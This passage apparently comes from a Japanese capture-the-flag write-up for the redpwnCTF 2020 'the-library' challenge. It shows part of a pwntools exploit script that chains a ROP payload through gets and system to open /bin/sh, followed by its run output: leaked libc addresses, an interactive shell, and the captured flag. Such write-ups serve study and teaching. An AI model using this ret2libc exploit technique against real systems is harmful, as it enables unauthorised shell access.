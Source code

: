 ```python:getshell.py
print("gets_addr:" + hex(gets_addr))
print("system_addr:" + hex(system_addr))

payload = "A" * 24
payload += gadget
payload += bss
payload += p64(gets_addr)
payload += gadget
payload += bss
payload += p64(system_addr)

io.recvuntil("\n")
io.sendline(payload)
io.send("/bin/sh\n")
io.interactive()
```
lsしてflag.txtをcatする。  
```bash
$ python2 getshell.py
[*] '/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 2020.redpwnc.tf on port 31350: Done
libc_base:0x7fe752009000
puts_addr:0x7fe7520899c0
gets_addr:0x7fe7520890b0
system_addr:0x7fe752058440
[*] Switching to interactive mode
Hello there:
AAAAAAAAAAAAAAAAAAAAAAAA3\x07
$ ls
Makefile
bin
dev
flag.txt
lib
lib32
lib64
libc.so.6
the-library
the-library.c
$ cat flag.txt
flag{jump_1nt0_th3_l1brary}
```

## flag{jump_1nt0_th3_l1brary}